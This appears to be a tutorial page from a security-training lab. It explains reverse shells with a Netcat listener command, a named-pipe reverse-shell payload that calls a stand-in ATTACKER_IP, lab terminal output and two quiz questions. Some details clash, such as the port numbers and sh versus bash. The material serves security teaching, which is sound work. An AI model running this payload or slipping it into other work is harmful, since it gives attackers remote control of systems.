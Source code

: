    

Reverse Shell

### Reverse Shell

A reverse shell, sometimes referred to as a "connect back shell," is one of the most popular techniques for gaining access to a system in cyberattacks. The connections initiate from the target system to the attacker's machine, which can help avoid detection from network firewalls and other security appliances.

pentestminkeyt reverse-shell cheat sheet

[https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet "https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet")

### Reverse Shell

A reverse shell, sometimes referred to as a "connect back shell," is one of the most popular techniques for gaining access to a system in cyberattacks. The connections initiate from the target system to the attacker's machine, which can help avoid detection from network firewalls and other security appliances.

#### How Reverse Shells Work

#### **Set up a Netcat (nc) Listener**

Let's now understand how a reverse shell works in a practical scenario using the tool Netcat. This utility supports multiple OSs and allows reading and writing through a network.

As mentioned above, a reverse shell will connect back to the attacker's machine. This machine will be waiting for a connection, so let's use Netcat to listen to a connection using the following command `nc -lvnp 443`.

Terminal

attacker@kali:~$ nc -lvnp 443
listening on [any] 4444 ...

```
attacker@kali:~$ nc -lvnp 443
listening on [any] 4444 ...
```

The command above uses the `-l` option to indicate Netcat to listen or wait for a connection. The `-v` option enables verbose mode. The `-n` option prevents the connections from using DNS for lookup, so it will not resolve any hostname it will use an IP address. Finally, the `-p` flag indicates the port that will be used to wait for the connection, in the case above, port **443**.

Any port can be used to wait for a connection, but attackers and pentesters tend to use known ports used by other applications like **53**, **80**, **8080**, **443**, **139**, or **445**. This is to blend the reverse shell with legitimate traffic and avoid detection by security appliances.

##### **Gaining Reverse Shell Access**

Once we have our listener set, the attacker should execute what is known as a reverse shell payload. This payload usually abuses the vulnerability or unauthorized access granted by the attacker and executes a command that will expose the shell through the network. There's a variety of payloads that will depend on the tools and OS of the compromised system. We can explore some of them [here](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet "https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet").

As an example, let's analyze an example payload named a **pipe reverse shell**, as shown below.

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f`

**Explanation of the Payload**

- `rm -f /tmp/f` - This command removes any existing named pipe file located at `/tmp/f/`. This ensures that the script can create a new named pipe without conflicts.
- `mkfifo /tmp/f` - This command creates a named pipe, or FIFO (first-in, first-out), at `/tmp/f`. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.
- `cat /tmp/f` - This command reads data from the named pipe. It waits for input that can be sent through the pipe.
- `| bash -i 2>&1` - The output of `cat` is piped to a shell instance (`bash -i`), which allows the attacker to execute commands interactively. The `2>&1` redirects standard error to standard output, ensuring that error messages are sent back to the attacker.
- `| nc ATTACKER_IP ATTACKER_PORT >/tmp/f` - This part pipes the shell's output through `nc` (Netcat) to the attacker's IP address (`ATTACKER_IP`) on the attacker's port (`ATTACKER_PORT`).
- `>/tmp/f` -This final part sends the output of the commands back into the named pipe, allowing for bi-directional communication.

The payload above can expose the shell `bash` through the network to the desired listener.

##### **Attacker Receives the Shell**

Once the above payload is executed, the attacker will receive a **reverse shell**, as shown below, allowing them to execute commands as if they were logging into a regular terminal in the OS.

**Attacker Terminal Output (Receiving Shell)**

Terminal

attacker@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964
To run a command as administrator (user "root"), use "sudo ".
See "man sudo_root" for details.

target@tryhackme:~$

```
attacker@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964
To run a command as administrator (user "root"), use "sudo ".
See "man sudo_root" for details.

target@tryhackme:~$
```

The output above shows the connection coming from the IP `10.10.13.37`, which is the IP address of the compromised target.

Answer the questions below

What type of shell allows an attacker to execute commands remotely after the target connects back?

Correct Answer

What tool is commonly used to set up a listener for a reverse shell?

Correct Answer